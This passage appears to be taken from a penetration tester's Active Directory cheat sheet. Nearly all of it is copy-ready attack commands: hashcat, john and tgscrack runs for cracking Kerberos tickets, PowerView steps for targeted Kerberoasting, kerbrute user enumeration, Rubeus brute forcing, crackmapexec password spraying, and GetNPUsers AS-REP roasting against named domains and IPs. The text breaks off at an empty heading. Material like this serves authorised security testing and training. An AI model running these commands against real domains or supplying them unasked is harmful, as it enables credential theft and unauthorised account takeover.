 or 

hashcat -a 0 -m 13100 ticket.hashcat /usr/share/wordlists/rockyou.txt -r/usr/share/hashcat/rules/d3ad0ne.rule --force

or 

hashcat -a 0 -m 13100 hash ~/Downloads/Tools/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --force 
or

hashcat -m 13100 krb5t_hash rockyou.txt --force  

or 

python tgscrack.py wordlist.txt hash.txt 



------------------------------- 
#Single Command using Powerview after you find the user 
Set-DomainObject -Identity USER_NAME -Set @{serviceprincialName = 'DomainName/SomeUniqueName'}
$User = Get-DomainUser USER_NAME 
$User | Get-DomainSPNTicket | fl
$User | Select serviceprincipalname
Set-DomainObject -Identity USER_NAME -Clear serviceprincipalname

Brute Forcing Domain Users

kerbrute userenum --dc 10.10.10.10 -d steins.local users.txt 

Download Kerbrute from here
kerbrute userenum --domain htb.local /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.10

#brute forcing using Rubeus
Rubeus.exe /users:users.txt /passwords:wordlist.txt /domain:steins.local /outfile:Output.txt  

#Brute Forcing & Password Spraying using CME
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords
crackmapexec <protocol> <target(s)> -u username1 username2 -p password1


#Password Spraying without bruteforce CME
crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes --no-bruteforce

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords --no-bruteforce


ASREP Roast via Linux: Get users hash from a DoNotPre-Auth user

sudo GetNPUsers.py STEINS-DC.LOCAL/ -usersfile users.txt -outputfile hashes.txt -dc-ip 10.10.10.10

sudo john hash --format=krb5asrep --wordlist=rockyou.txt 
# better copy rockyou.txt to the same location  

ASREP Roast as an Authenticated user 

